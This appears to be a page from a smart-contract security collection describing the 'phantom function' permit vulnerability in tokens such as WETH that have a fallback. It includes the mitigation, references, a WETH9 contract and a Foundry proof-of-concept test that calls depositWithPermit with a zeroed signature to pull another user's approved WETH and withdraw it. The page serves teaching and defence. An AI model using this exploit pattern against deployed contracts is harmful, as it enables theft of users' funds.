 # Phantom function - Permit Function

**Name:** Phantom function - Permit Function

**Description:** Phantom function: Accepts any call to a function that it doesn't actually define, without reverting. key: 1.Token that does not support EIP-2612 permit. 2.Token has a fallback function. For example: WETH.

**Mitigation:**

Use SafeERC20's safePermit - Revert on invalid signature. https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol#LL89C14-L89C24

**REF:**

https://twitter.com/1nf0s3cpt/status/1671347058568237057

https://media.dedaub.com/phantom-functions-and-the-billion-dollar-no-op-c56f062ae49f

**WETH9 Contract:**

```jsx
contract WETH9 {
    string public name = "Wrapped Ether";
    string public symbol = "WETH";
    uint8 public decimals = 18;

    event Approval(address indexed src, address indexed guy, uint wad);
    event Transfer(address indexed src, address indexed dst, uint wad);
    event Deposit(address indexed dst, uint wad);
    event Withdrawal(address indexed src, uint wad);

    mapping(address => uint) public balanceOf;
    mapping(address => mapping(address => uint)) public allowance;

    fallback() external payable {
        deposit();
    }

    receive() external payable {}

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/**phantom-permit.sol** -vvvv

```jsx
// Function to test phantom permit vulnerability
    function testVulnPhantomPermit() public {
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Transfers 10 Ether to Alice's account
        vm.deal(address(alice), 10 ether);

        // Initiates a "prank" on Alice's account in the virtual machine
        // It's unclear what this prank does without further context
        vm.startPrank(alice);
        
        // Deposits 10 Ether into WETH9Contract from the current contract
        WETH9Contract.deposit{value: 10 ether}();
        
        // Approves the Vulnerable Permit Contract to spend the maximum possible amount of tokens (WETH in this case) on behalf of this contract
        WETH9Contract.approve(address(VulnPermitContract), type(uint256).max);
        
        // Stops the prank on Alice's account
        vm.stopPrank();
        
        // Logs the balance of this contract in the WETH9Contract
        console.log(
            "start WETH balanceOf this",
            WETH9Contract.balanceOf(address(this))
        );

        // Makes a deposit in the Vulnerable Permit Contract on behalf of Alice using a permit
        // The parameters for v, r, s (27, 0x0, 0x0 here) are part of the ECDSA signature scheme for the permit
        VulnPermitContract.depositWithPermit(
            address(alice),
            1000,
            27,
            0x0,
            0x0
        );
        
        // Gets the balance of the Vulnerable Permit Contract in WETH and logs it
        uint wbal = WETH9Contract.balanceOf(address(VulnPermitContract));
        console.log("WETH balanceOf VulnPermitContract", wbal);

        // Withdraws 1000 tokens from the Vulnerable Permit Contract
        VulnPermitContract.withdraw(1000);

        // Gets the balance of this contract in WETH after the withdrawal and logs it
        wbal = WETH9Contract.balanceOf(address(this));
        console.log("WETH9Contract balanceOf this", wbal);
    }
```

**Red box: drained the pool by phantom function.**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fccbf77e6-c6ef-4cdd-8065-60cca1e2c4c1%2FUntitled.png?table=block&id=ce845a77-2d19-4e97-9124-e3fc0e8a2525&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)